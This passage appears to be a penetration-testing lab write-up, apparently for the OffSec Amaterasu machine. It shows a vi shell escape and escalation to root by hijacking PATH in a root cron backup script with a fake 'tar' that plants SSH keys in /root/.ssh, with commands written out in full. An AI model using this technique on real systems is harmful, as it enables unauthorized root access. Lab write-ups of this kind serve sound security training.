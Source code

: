 I tried to look around those binaries. None of them seemed to work because they were all standard binaries.

```
[alfredo@fedora ~]$ EDITOR=vi crontab -e
no crontab for alfredo - using an empty one
# hit :!id to execute shell command under vi (vim)
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)
```

Talking about crontab, let's also check the system crontab.
```
[alfredo@fedora ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

Interesting, the system crontab runs every minute, calling the script at `/usr/local/bin/backup-flask.sh` as root. The script adds the place we have control of to PATH. That's good enough. We'll create a script named `tar` in `restapi` folder and copy the `authorized_keys` file to `/root/.ssh`
```
[alfredo@fedora restapi]$ cat tar
#!/bin/bash

mkdir -o /root/.ssh
cp /home/alfredo/.ssh/authorized_keys /root/.ssh/
```

Wait 1 minute for the cron to execute. And after that we can connect to it.

```
> ssh -i id_rsa -o IdentitiesOnly=yes root@192.168.191.249 -p 25022                                                                                ~/Projects/OffSec/Labs/Amaterasu@homes5
Web console: https://fedora:9090/

Last login: Tue Mar 28 03:21:22 2023
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)
```